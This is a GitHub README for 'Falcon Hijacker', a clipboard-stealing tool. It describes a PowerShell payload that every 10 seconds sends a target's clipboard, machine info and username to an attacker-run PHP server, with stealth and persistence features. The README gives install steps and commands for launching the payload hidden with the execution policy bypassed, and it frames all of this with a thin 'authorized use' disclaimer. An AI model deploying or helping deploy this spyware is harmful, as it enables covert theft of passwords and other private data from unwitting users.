 # Falcon Clip Board Hijacker 🦅

<p align="center">
    <img src="https://raw.githubusercontent.com/rgsecteam/rgsectm/refs/heads/main/image/thumbinels/falcon.png">
</p>

<img src="https://img.shields.io/badge/License-MIT-blue.svg">

# What is Falcon-Hijacker?
<p>Falcon Hijacker is a professional clipboard monitoring tool designed for authorized security assessments. It captures real-time clipboard data from target systems through a streamlined bash interface.</p>

## This Tool Tested On :
  - Kali Linux
  - Parrot Sec OS


## 📊 Advanced Monitoring

  - **Live Data Stream:** Real-time clipboard viewing
  - **Structured Logging:** Timestamped entries with metadata
  - **Multiple Targets:** Capture from multiple machines simultaneously
  - **Export Ready:** Clean log format for analysis

## PowerShell Payload (clipboard_logger.ps1)
  - **Frequency:** Checks clipboard every 10 seconds
  - **Data Sent:** Clipboard content + machine info + username
  - **Stealth:** No visible window, error suppression
  - **Persistence:** Runs until manually stopped

## Installing and requirements
<p>This tool require PHP for webserver, and wget for downloading dependencies. First run following command on your terminal</p>

```
apt-get -y install php wget
```

## Installing Falcon:

```
git clone https://github.com/rgsecteam/falcon-hijacker
cd falcon-hijacker
bash falcon.sh
```
## Stealth Deployment:
<p>Run the following command on windows matchin. </p>

```
powershell -NoP -NonI -W h -Exec Bypass .\clipboardhijacker.ps1
```
<p>For Hidden Execution</p>

```
Start-Process powershell -ArgumentList "-WindowStyle Hidden -ExecutionPolicy Bypass -File .\clipboardhijacker.ps1"
```

## Legal & Ethical Notice
By using the materials in this repository you agree to:
- Use the information only for defensive, educational, or research purposes in controlled environments.
- Follow all applicable laws and organizational policies.
- Not distribute or operationalize any malicious code.
- **Do not** use this repository to harm others. Always obtain explicit permission before testing on systems you do not own.

#### For More Video subcribe <a href="http://youtube.com/@RGSecurityTeam">RGSecurityTeam YouTube Channel</a>

<p>Falcon-hijacker is inspired by https://github.com/techchipnet/ Big thanks to @techchipnet</p>
